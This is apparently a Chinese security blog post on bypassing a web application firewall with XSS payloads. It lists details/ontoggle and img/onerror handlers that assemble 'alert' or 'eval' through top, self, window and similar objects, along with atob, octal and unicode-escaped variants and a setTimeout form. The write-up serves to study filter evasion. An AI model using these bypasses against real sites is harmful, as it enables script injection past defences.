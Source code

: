 ## 前言
- - -
对于我这个菜鸟来说，我通过谷歌百度学习到很多前辈的资料，甚至每句话都是他的指导，我也很感激前辈的为我们铺设的道路，让我们更快的成长起来。我也乐于分享，可能有些知识点过于单调或者久远，请见谅。

## waf
- - -
前几天花了10买了一个月的服务器，换个waf来测试。
![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xeuqs6nwj30g60cgdge.jpg)   

### Test

遗漏标签就不测试了，上一篇[水文](https://www.anquanke.com/post/id/176185)的分享的标签也可以过，不信找几个试试= =

好吧非常打脸，拦截了。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf5z6pwcj30uj0590t6.jpg)

然而换个prompt()函数???免费版当然是这样的啦，高级服务不仅我买不起，还绕不过啊，而且我不是真正的站长，规则我也不会设啊，总之就是这也不会那也不会。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf9uioa9j30uj094wf8.jpg)

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xff076fvj30c80c874l.jpg)

### Top属性类似的补充
- - -
还记得上篇的top属性嘛

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xfxfayjoj30kg04ot8n.jpg)

实际上可以利用的还有好几个，看到这里各位是否get到什么了。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xju6slwuj30ub06raac.jpg)

我们可以利用的类似拼接的对象又多了几个，例如：
```
//一家人就是要整整齐齐
<details open ontoggle=top['al'%2B'ert'](1) >
<details open ontoggle=self['al'%2B'ert'](1) >
<details open ontoggle=parent['al'%2B'ert'](1) >
<details open ontoggle=frames['al'%2B'ert'](1) >
<details open ontoggle=content['al'%2B'ert'](1) >
<details open ontoggle=window['al'%2B'ert'](1) >
```
这些都可以绕过waf，总结起来有 `top` `self` `parent` `frames` `content` `window`，无疑`top`是最短的，所谓短小精悍，这里借用PKAV的一张ppt。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xkryc227j30fp073782.jpg)

### 俩个例子
- - -
**例1**
```html
<img src=1 alt=al lang=ert onerror=top[alt%2blang](0)>
```
这个例子很巧妙，将`alt`和`lang`属性分别赋值合并起来就是`alert`，并在top属性内将2个属性相加。


**例2**
```html
 <details open ontoggle=top[a='al',b='ev',b%2ba]('alert(1)')>
```
在top属性内添加2个变量，并赋值构造eval，然后执行alert(1)

测试下，拦截了。
![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xodipv2ej30uj05hmxm.jpg)

其实waf，拦截的是alert这个关键字，换个`prompt()`函数就过了

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xoh9uty6j30uj086q3n.jpg)

也可以选择将`alert(1)`编码，因为有eval存在啊，直接拿来用

```
<details open ontoggle=top[a='al',b='ev',b%2ba](atob('YWxlcnQoMSk='))>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\141\154\145\162\164\50\61\51')>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')>
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xom9zf77j30uj097mxz.jpg)

setTimeout()函数也是没问题的，毕竟也能执行代码。
```
<details open ontoggle=top[a='meout',b='setTi',b%2ba]('\141\154\145\162\164\50\61\51')>
```


